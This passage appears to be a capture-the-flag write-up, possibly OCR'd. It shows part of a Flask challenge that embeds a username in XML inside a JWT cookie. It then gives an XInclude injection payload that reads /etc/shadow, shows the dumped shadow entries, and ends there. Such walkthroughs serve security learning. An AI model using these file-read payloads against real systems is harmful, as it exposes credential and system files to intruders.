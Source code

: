 ```python
        return 'Error: username is required', 400

    username = str(username)

    if not re.match('^[a-z]+$', username):
        return 'Error: username must be only lowercase letters', 400

    if len(username) < 3:
        return 'Error: username must be at least 3 letters', 400

    if len(username) > 20:
        return 'Error: username must be no longer than 20 letters', 400

    # Useful for chal development
    # username = '<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" href="/app/app.py" parse="text"/>'
    xml = f'<data><username>{username}</username></data>'

    jwtData = {"data": xml}

    cookie = jwt.encode(jwtData, JWT_SECRET, algorithm=JWT_ALG)

    response = flask.make_response(f'hello {username}')
    response.set_cookie(JWT_COOKIE, cookie)

    response.headers['location'] = url_for('welcome')
    return response, 302

if __name__ == "__main__":
    app.run(debug=False)
```

We have an endpoint `/secret-welcome-935734` which receives some credentials and gets us the flag which is stores in the environment variable `FLAG`.
We know that the user is `flaguser` and we know from the comments that we have a linux user with the same username.
Lets try to read `/etc/shadow` or `/etc/passwd` to get the user password hash.

Note: There is a file with the environment variables called `/proc/self/environ` however the xinclude exploit don't seems to work.
```

{
  "data": "<data><username><xi:include xmlns:xi=\"http://www.w3.org/2001/XInclude\" parse=\"text\" href=\"file:///etc/shadow\"/></username></data>"
}

```

We get the following entries:

``` shell
root:*:19764:0:99999:7:::
daemon:*:19764:0:99999:7:::
bin:*:19764:0:99999:7:::
sys:*:19764:0:99999:7:::
sync:*:19764:0:99999:7:::
games:*:19764:0:99999:7:::
man:*:19764:0:99999:7:::
lp:*:19764:0:99999:7:::
mail:*:19764:0:99999:7:::
news:*:19764:0:99999:7:::
uucp:*:19764:0:99999:7:::
proxy:*:19764:0:99999:7:::
www-data:*:19764:0:99999:7:::
```